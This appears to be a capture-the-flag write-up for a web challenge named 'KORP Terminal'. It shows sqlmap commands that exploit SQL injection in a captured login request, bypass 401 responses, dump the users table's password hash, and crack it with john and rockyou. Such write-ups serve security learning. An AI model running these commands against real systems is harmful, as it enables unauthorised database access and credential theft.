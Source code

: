 # KORP Terminal

So here is the page we are greeted with:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nothing much happening here, nothing in the source code, so i go on and capture a request

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried some basic sql bypasses but nothing seems to be a low hanging fruit but i was able to make an interesting error pop:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we got some mariaDB behing this, but since i wan't to be quick i copy all the content in the request tab and put it in a txt file:

```
sqlmap -r req.txt
```

<figure><img src="../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get blocked because of the response code but we can continue by ignoring this:

```
sqlmap -r req.txt --ignore-code 401 --dbs
```

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables korp_terminal
```

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables users --columns
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 -T users -C password --dump
```

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have our hash we can try to bruteforce ir:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

and we find the password (we could guess that smh...)
